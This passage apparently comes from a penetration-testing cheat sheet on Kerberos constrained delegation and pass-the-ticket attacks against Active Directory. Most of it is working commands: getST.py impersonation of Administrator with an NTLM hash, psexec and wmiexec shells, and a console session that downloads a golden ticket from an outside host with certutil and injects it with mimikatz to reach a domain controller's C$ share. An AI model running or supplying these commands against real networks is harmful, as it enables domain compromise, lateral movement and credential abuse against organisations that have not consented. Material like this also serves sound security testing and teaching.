 ![](<../../.gitbook/assets/image (56).png>)

When looking for which ticket to impersonate I would recommend looking for an administrator ticket from the krbtgt just like the one outlined in red above.
{% endtab %}

{% tab title="Pass the Ticket" %}
## Impacket

{% code overflow="wrap" %}
```bash
getST.py -spn WWW/dc.domain.com -impersonate Administrator domain.com/svc_user -hashes :4efed24079fe2767c67f2b43fd6cb5ac
# If we need to find a SPN, we can use pywerviewer from Linux
pywerview get-netcomputer -u my.user -t 10.10.10.10 --full-data
# We grab the SPN that shows the description msds-allowedtodelegateto, do not confuse it with others
export KRB5CCNAME=Administrator.ccache #export to a env variable 
# Get a shell using PTT
psexec -k -no-pass domain.com/Administrator@dc.domain.com
wmiexec.py -k -no-pass north.sevenkingdoms.local/catelyn.stark@winterfell
wmiexec.py dc.domain.com -k -no-pass # include dc.domain.com or any other domain in /etc/hosts (dc.xxx.xxx if it is the domain to target a DC)
```
{% endcode %}

## Local

{% code overflow="wrap" %}
```bash
# Pass the Ticket -> access DC content from a non-DC host/machine on the domain
c:\Windows\Temp\test>hostname
PC-Ramlux
c:\Windows\Temp\test>dir \\DC-Company\c$ # we see we cannot now
b'Access is denied.\r\n'
c:\Windows\Temp\test>certutil -urlcache -split -f http://10.0.2.47:8000/golden.kirbi
# Now pass the TICKET.KIRBI
mimikatz# kerberos::ptt golden.kirbi
mimikatz# exit
klist
c:\Windows\Temp\test>dir \\DC-Company\c$ # now access should be gratned
```